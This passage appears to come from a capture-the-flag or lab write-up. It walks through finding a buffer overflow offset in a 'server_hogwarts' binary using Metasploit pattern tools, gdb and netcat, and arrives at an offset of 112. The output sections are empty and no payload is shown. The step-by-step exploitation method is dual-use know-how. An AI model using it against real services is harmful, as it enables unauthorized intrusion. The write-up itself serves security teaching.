

4.2 Buffer overflow: Finding the offset
Used “msf pattern” to create a cyclic pattern of length 2000.
1. Run the following command on your Kali Machine.
$msf-pattern_create -l 2000
Output:
2. Run the server using the “r” command when (gdb) showed up.
$gdb -q server_hogwarts
Output:

3. Run in another terminal the following command and gave the above cyclic pattern as input..
$nc 127.0.0.1 9898
Output:
4. Look at the “gdb” terminal how the program has crashed.
Output:
There's a segmentation fault message.
5. Write down the hex value (0x64413764), and passed it to msf pattern for finding the exact offset value, which is 112.
$msf-pattern_offset -l 2000 -q 0x64413764
Output: